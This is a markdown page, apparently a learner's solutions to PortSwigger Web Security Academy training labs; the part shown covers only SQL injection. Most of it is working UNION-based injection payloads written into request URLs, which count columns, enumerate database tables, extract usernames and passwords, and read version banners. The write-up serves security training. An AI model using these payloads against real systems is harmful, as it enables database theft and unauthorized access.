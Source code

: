 # Portswigger - Web Security Academy (Solutions)

> Look at the actual solutions as well.

## Contents

- [SQLi](#sqli)
- [XSS](#xss)
- [CSRF](#csrf)
- [XXE](#xxe)
- [SSRF](#ssrf)
- [OS Command Injection](#os-command-injection)
- [Access Control](#access-control)

## SQLi
#### SQL injection UNION attack, determining the number of columns returned by the query

1. Initial request: `GET /filter?category=Food+%26+Drink`
2. Guess: `SELECT name, price FROM products WHERE category='[input]'`
3. SQL query attempts:
    - `/filter?category='+ORDER+BY+3--`
    - `/filter?category='+UNION+SELECT+id,name,price+FROM+products--`
4. Just had to return an additional row containing null values.

#### SQL injection UNION attack, finding a column containing text 
- `/filter?category=Corporate+gifts'+UNION+SELECT+price,null,null+FROM+products--`
- `/filter?category=Corporate+gifts'+UNION+SELECT+1337,table\_name,null+FROM+information\_schema.tables--`
- `/filter?category='+UNION+SELECT+null,column\_name,null+FROM+information\_schema.columns+WHERE+table\_name='products'--`
- `/filter?category='+UNION+SELECT+null,'0tb9ew',null+FROM+products--` :/

#### SQL injection UNION attack, retrieving data from other tables
- `/filter?category=Gifts'+ORDER+BY+2--`
- `/filter?category=Gifts'+union+select+username,password+from+users--`

#### SQL injection UNION attack, retrieving multiple values in a single column
`/filter?category=Gifts'+union+select+1,username||':'||password+from+users--`

#### SQL injection attack, querying the database type and version on Oracle
`/filter?category='+union+select+null,banner+FROM+v$version--`

#### SQL injection attack, querying the database type and version on MySQL and Microsoft
`/filter?category=Gifts'+union+select+@@version,null+--+`
